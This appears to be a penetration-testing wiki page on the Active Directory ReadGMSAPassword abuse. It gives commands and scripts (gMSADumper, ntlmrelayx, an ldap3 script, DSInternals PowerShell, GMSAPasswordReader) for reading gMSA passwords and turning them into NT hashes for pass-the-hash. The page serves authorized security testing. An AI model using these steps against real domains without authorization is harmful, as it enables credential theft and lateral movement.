 # ReadGMSAPassword

This abuse stands out a bit from other abuse cases. It can be carried out when controlling an object that has enough permissions listed in the target gMSA account's `msDS-GroupMSAMembership` attribute's DACL. Usually, these objects are principals that were configured to be explictly allowed to use the gMSA account.

The attacker can then read the gMSA (group managed service accounts) password of the account if those requirements are met.&#x20;

{% tabs %}
{% tab title="UNIX-like" %}
On UNIX-like systems, [gMSADumper](https://github.com/micahvandeusen/gMSADumper) (Python) can be used to read and decode gMSA passwords. It supports cleartext NTLM, pass-the-hash and Kerberoas authentications.

```bash
gMSADumper.py -u 'user' -p 'password' -d 'domain.local'
```

****

**Alternative #1**: Impacket's [ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) tool can be used to read and decode gMSA passwords. :warning: Some tests showed ntlmrelayx missed entries gMSADumper didn't.

```bash
ntlmrelayx.py -t ldaps://10.0.0.5 -debug --dump-gmsa --no-dump --no-da --no-acl --no-validate-privs 
```

{% hint style="success" %}
In order to easily fake a relayed authentication, once the relay servers are up and running, the tester can browse [http://127.0.0.1/](http://127.0.0.1/) in order to trigger a basic authentication that will then be relayed by ntlmrelayx, like [this](https://arkanoidctf.medium.com/hackthebox-writeup-forest-4db0de793f96).
{% endhint %}



**Alternative #2**: The `msDS-ManagedPassword` attribute can also be manually obtained by running the following Python script. The [following code](https://github.com/SecureAuthCorp/impacket/blob/3f3002e1c1dd78a5ee6100d6824ff7b65bbb92b6/impacket/examples/ntlmrelayx/attacks/ldapattack.py#L672-L702) can then be used to decode the blob.

```python
import ldap3
target_dn = "" # something like 'CN=Target User,OU=Standard Accounts,DC=domain,DC=local'
domain = "domain"
username = "username"
user = "{}\\{}".format(domain, username)
password = "password"
server = ldap3.Server(domain)
connection = ldap3.Connection(server = server, user = user, password = password, authentication = ldap3.NTLM)
connection.bind()
connection.search(target_dn, '(&(ObjectClass=msDS-GroupManagedServiceAccount))', search_scope=ldap3.SUBTREE, attributes=['sAMAccountName','msDS-ManagedPassword'])
print(connection.entries)
```
{% endtab %}

{% tab title="Windows" %}
On Windows systems, there are multiple ways to read gMSA passwords.

The first one uses the Active Directory and DSInternals PowerShell modules.

```bash
# Save the blob to a variable
$gmsa = Get-ADServiceAccount -Identity 'Target_Account' -Properties 'msDS-ManagedPassword'
$mp = $gmsa.'msDS-ManagedPassword'

# Decode the data structure using the DSInternals module
ConvertFrom-ADManagedPasswordBlob $mp
# Build a NT-Hash for PTH
(ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword | ConvertTo-NTHash
```

The second one relies on [GMSAPasswordReader](https://github.com/rvazarkar/GMSAPasswordReader) (C#).

```bash
.\GMSAPasswordReader.exe --AccountName 'Target_Account'
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://cube0x0.github.io/Relaying-for-gMSA/" %}
